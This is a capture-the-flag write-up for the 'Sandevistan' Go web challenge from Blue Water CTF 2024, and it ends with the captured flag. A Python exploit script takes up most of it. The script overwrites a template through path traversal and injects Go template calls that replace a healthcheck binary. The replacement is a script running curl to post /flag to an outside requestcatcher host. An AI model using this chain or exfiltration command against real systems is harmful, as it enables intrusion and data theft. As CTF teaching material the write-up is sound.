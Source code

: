```yaml
---
layout: post
title:  "sandevistan - Blue Water CTF 2024"
date:   2024-10-13 00:00:00 -0400
---
```


{% raw %}
https://ctftime.org/event/2479

# Sandevistan (Web)

Go web chall

## Solution

You overwrite a template then you need to find some useful gadget on `user` or `cyberware` to get the flag.
There is a healthcheck function that calls `/bin/true`.
So the idea is to overwrite that with something.
But that doesn't work because the file will start with `ERROR ...` and not run.
`NewError` plus `SerializeErrors` allows us to write to any offset in a file.
So we just do that.

```python
import requests
import urllib


REMOTE = "http://sandevistan.chal.perfect.blue:28418/"

# create user
res = requests.post(
    REMOTE + "user",
    data="username=xad",
)

bin = (
    """{{ .NewError "asdsadasd" "/bin/true" }}
rs -> {{ range $index, $value := .Errors }}{{ $index }} - {{ $value }}\n{{ end }}
alize -> {{ .SerializeErrors "#!/bin/bash\\ncurl https://lalalalalallalala.requestcatcher.com/ -d @/flag\\n" 0 0 }}
thcheck ->  {{ .UserHealthcheck }}"""
    + " " * 2000
)
bin = urllib.parse.quote_plus(bin)
res = requests.post(
    REMOTE + "cyberware",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data=f"username=../tmpl/user.html&name={bin}",
)

# get user, new template
res = requests.get(
    REMOTE + "user",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data="username=xad",
)
```

## Flag
`bwctf{YoU_kNoW_yOu_d1dnt_l0s3_Ur_53Lf-coNtR0L._LEt'5_start_at_the_r4inB0w}`

shafouz - 2024/10/13
{% endraw %}

